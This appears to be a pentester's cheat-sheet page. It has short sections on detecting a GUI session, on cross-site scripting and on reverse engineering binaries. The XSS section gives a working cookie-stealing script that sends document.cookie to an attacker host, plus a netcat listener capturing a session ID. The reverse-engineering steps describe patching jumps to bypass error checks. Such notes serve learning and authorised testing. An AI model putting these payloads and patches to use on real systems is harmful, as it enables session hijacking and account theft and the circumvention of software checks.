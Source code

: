 ### GUI
If there is a gui we want to check out the browser.

```
echo $DESKTOP_SESSION
echo $XDG_CURRENT_DESKTOP
echo $GDMSESSION
```

------------------------------------------------------------------------




----------------------------- NOTES ------------------------------------




------------------------------------------------------------------------


## XSS


```
<script>alert("XSS")</script>

<script>
new Image().src="http://kali/bogus.php?output="+document.cookie;
</script>

root@kali:~# nc -nlvp 80
listening on [any] 80 ...
connect to [kali] from (UNKNOWN) [target] 49455
GET /bogus.php?output=PHPSESSID=CREDS HTTP/1.1
Accept: */*
Referer: http://127.0.0.1/index.php
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2;
.NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
Accept-Encoding: gzip, deflate
Host: 192.168.10.5
Connection: Keep-Alive
```
## Reverse

```
do all in vm
1) try to grab strings for low hanging fruit
2) sublime text
3) IDA Pro in windows is easiest (use ctrl+x to find references/calls to function)
4) N is the hotkey to rename a function in IDA Pro, semicolon is hotkey for comment
5) In immunity debugger view module (select app)
6) searh for all refeed text strings (double click on an error message & success (set breakpoints)
7) Dobule click in cpu for breakpoint
8) inspect jumps
9) modify jumps to not take errors
```
